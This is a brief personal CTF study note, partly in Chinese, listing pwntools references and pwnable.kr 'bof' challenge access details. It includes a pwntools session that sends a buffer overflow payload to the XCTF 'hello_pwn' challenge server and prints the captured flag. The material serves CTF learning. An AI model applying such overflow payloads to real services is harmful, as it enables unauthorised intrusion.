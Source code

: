```yaml
---
title: 7-21
abbrlink: 14532
hidden: true
date: 2020-07-21 15:00:30
---
```


## pwn
参考：
1. [一步一步学pwntools](https://www.jianshu.com/p/ea112ae8c6cd)
2. 看了他的“收获”部分：[pwnable.kr—bof](https://blog.csdn.net/lee_ham/article/details/77719324)


### pwnable.kr
1. ssh fd@pwnable.kr -p2222 (pw:guest)
2. Download : http://pwnable.kr/bin/bof   
   Download : http://pwnable.kr/bin/bof.c   
   Running at : nc pwnable.kr 9000



### 攻防世界
[hello_pwn](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5052&page=1)
```
>>> c = remote("220.249.52.133", 32177)
[x] Opening connection to 220.249.52.133 on port 32177
[x] Opening connection to 220.249.52.133 on port 32177: Trying 220.249.52.133
[+] Opening connection to 220.249.52.133 on port 32177: Done
>>> p = "0"*4 + p32(1853186401)
>>> c.sendline(p)
>>> print c.recv()
~~ welcome to ctf ~~     
lets get helloworld for bof
cyberpeace{1f8655e6cb9571f219d21d9ba2051e74}
```